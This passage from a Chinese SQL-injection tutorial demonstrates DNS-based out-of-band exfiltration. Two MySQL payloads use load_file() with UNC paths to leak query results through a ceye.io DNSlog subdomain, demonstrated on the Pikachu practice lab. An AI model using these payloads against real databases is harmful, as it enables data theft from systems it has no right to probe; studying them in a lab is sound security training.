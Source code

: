 先给出最常用的两种 Payload

```bash
Payload 1:
and if((select load_file(concat('//',(select 攻击语句),'.xxxx.ceye.io/sql_test'))),1,0)

Payload 2:
and if((select load_file(concat('\\\\',(select 攻击语句),'.xxxx.ceye.io\\sql_test'))),1,0)
```

Payload 1,2 大体的思路都是一样的，也就是在`if()`函数中嵌套`load_file()`函数再使用 UNC 路径进行读取，`sql_test`这里写什么都可以，只是为了符合`load_file()`函数格式，读取时会产生 DNS 访问信息，唯一的不同点在于 Payload 2 在 URL 中使用`\(反斜杠)`时要双写配合转义

> 转义：转义是一种引用单个字符的方法。一个前面放上转义符 () 的字符就是告诉 shell 这个字符按照字面的意思进行解释

这里使用 Pikachu 靶场的时间盲注关卡进行演示，方便大家进行理解，在测试前一定先要确保`secure_file_priv`选项为空，可以使用`show variables like '%secure%';`进行查询  
[![](assets/1707953831-c159fc18db450e1149698a0168b4bab8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204192758-72dd3c38-c350-1.png)  
在修改`my.ini`文件时需要注意`secure_file_priv`选项是新增的，本身并没有这个选项  